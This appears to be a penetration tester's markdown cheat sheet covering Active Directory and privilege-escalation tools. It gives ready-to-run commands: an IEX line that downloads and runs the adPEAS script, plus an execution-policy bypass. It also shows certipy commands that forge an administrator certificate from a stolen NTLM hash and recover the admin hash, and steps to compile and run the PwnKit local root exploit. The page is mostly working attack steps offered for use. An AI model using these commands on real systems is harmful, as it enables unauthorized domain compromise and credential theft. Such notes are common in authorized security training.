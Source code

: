### adPEAS
Refer to the documentation/repo if needed for additional commands. 
NOTE: It might be better to run the light version of the script as the version with bloodhound has issues uploading the zip file to bloodhound. Might be better to just run sharphound manually on the target.
```
Import-Module .\adPEAS.ps1
or
. .\adPEAS.ps1
or
gc -raw .\adPEAS.ps1 | iex
or
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

NOTE: You might have to run powershell -ep bypass and then import the script with the above commands

To run it just do the following:
Invoke-adPEAS
```

### certipy
Use to abuse ADCS certificates.

Install:
```
pip3 install certipy-ad
```

Check for potential misconfigured certificates. Check the .txt output after running:
```
certipy-ad find -u user@domain.com -p 'password' -vulnerable -dc-ip 10.10.10.100
```

With a compromised hash, forge an admin cert using NTLM of an account:
```
certipy-ad req -u 'USER' -hashes ':NTLM_HASH_HERE' -dc-ip 10.10.10.100 -ca some-domain-certificate-here-CA -template cert_template_here -upn administrator -target domain.com -key-size 4096 -debug
```

Run the command to see the admin NTLM hash:
```
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'domain.com' -dc-ip 10.10.10.100
```


# Common and Useful Exploit Methods - PrivEsc
## PwnKit
```
chmod +x PwnKit
./PwnKit

Can also compile on the target and run it:
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```
